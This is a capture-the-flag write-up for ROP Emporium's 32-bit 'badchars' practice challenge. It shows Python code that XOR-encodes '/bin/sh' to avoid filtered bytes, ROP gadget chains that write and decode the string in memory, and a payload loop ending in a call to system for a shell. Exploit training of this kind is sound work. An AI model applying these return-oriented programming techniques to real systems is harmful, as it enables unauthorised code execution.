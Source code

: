 # badchars - 32bit

When running the program the set of bad characters is present to us:

```
badchars by ROP Emporium
32bits

badchars are: b i c / <space> f n s
> 
```

So, in this case, we cannot just place `/bin/sh` into memory and call it as the characters will be muddled.

Note: `ropper` has a mode to return gadgets that do not contain the specified bad characters:

```
ropper -f badchars32 -b "626963666e73202f"
```

Therefore, we need to prepare the string to pass the check. Then we need to alter the string while it is present in memory.

We first need to XOR the string a find a single value that gives us a string that contains no badchars

The function below achieves this purpose:

```python
def find_valid_string_with_XOR(originalString):

    FOUND_SOLUTION = False

    xor_value = 0

    while not FOUND_SOLUTION:
        xor_value += 1
        newString = ""

        for o in originalString:
            newChar = chr(ord(o) ^ xor_value)
            
            if newChar in badchars:
                break

            newString += newChar

        else:
            FOUND_SOLUTION = True
        

    return newString, xor_value
```

For example the function will translate `/bin/sh` to `-``kl-qj` with an XOR value of `0x02`.

We then write the XORed string into memory in exactly the same way as `write4`.

The gadgets chain:

```
# C1
pop esi 
pop edi 
ret 
<STRING>
<.DATA_ADDRESS>
<C2_ADDRESS>

# C2
mov dword ptr [edi], esi
ret
```

Will write four bytes of a string into memory, this needs to repeated twice for each 4-byte chunk of the string.

Now, we need to alter the data on the stack to recreate the `/bin/sh\x00` string.

The perfect gadget is present in the binary:

```
xor byte ptr [ebx], cl ; ret
```

This will xor the first byte of the data present in `ebx`. This means we can increment the value in `ebx` and gradually XOR each character.

This combined with the `pop ebx ; pop ecx ; ret` gadget lets us place values into the correct areas.

The code below achieves this functionality:

```python
data_addr = 0x804a088 # .data
for o in command:
    payload += pop_bx_cx        # pop ebx ; pop ecx ; ret
    payload += p32(data_addr)   # Address of .data 
    payload += p32(xor_value)   # 0x02 (From the XOR code above)
    payload += xor_gad          # xor byte ptr [ebx], cl ; ret)

    data_addr += 1
```

This gadget chain will turn out string back to `/bin/sh`!

This exploit is finished with a tasty call to system to spawn a shell.